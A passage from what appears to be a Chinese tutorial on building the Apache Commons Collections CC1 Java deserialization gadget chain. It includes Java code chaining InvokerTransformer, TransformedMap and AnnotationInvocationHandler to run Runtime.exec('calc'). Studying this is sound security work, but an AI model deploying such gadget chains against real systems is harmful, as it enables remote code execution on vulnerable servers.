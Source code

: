 ```java
Object transform = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}).transform(Runtime.class);
Object transform1 = new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}).transform(transform);
InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
HashMap<Object, Object> objectObjectHashMap = new HashMap<>();
Object put = objectObjectHashMap.put("value", "value");
Map<Object, Object> decorate = TransformedMap.decorate(objectObjectHashMap, null, exec);
Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
Object o = declaredConstructor.newInstance(Retention.class, decorate);
serialize(o);
unserialize("ser.bin");
```



<h1 id="mT0pb">三:最终的链子</h1>
<h2 id="eR9m8">0x3.1: exp</h2>

```
到这里你以为结束了吗？并没有老弟，我们还得需要解决最后最后一个问题，那就是SetValue里面的内容不可以控制，我们希望的内容是Runtime.class，看到这里不着急抽根烟喝口水，然后我们接着往下看，
ChainedTransformer中也会执行transform并且可以减少我们的代码量下面是修改后的(图一)，你心想我不想减少代码量你就告诉我怎么控制我们需要控制的地方，其实这一步是必要的为什么这么说接着往下看
ConstantTransformer(图二)，可以看到构造方法修改了一个属性，然后transform直接返回了，我相信你看我文章之前也看了别人的你应该最难理解的是这一块的意义在哪为什么修改这里Setvalue内容就可以控制了呢？
那是因为既然可以循环执行transform那么在执行到这个的时候虽然参数不可以控制但是我们修改了这里的属性直接给我return到下一次循环的时候object就已经被修改掉了所以这也是为什么修改这里就达到可控的目的（图三）。
```

```java
//我是修改后的
Transformer[] transformers = new Transformer[]{

new InvokerTransformer("getMethod",
        new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
new InvokerTransformer("invoke"
        , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```

![](https://xinyisleep.github.io/img/2025/commons-collections/14.jpg)

![](https://xinyisleep.github.io/img/2025/commons-collections/14.5.jpg)

![](https://xinyisleep.github.io/img/2025/commons-collections/15.png)

```
到这里就可以结束了 下面是完整的cc1链的exp,
new ConstantTransformer(Runtime.class),
这个就是控制SetValue的代码。
```
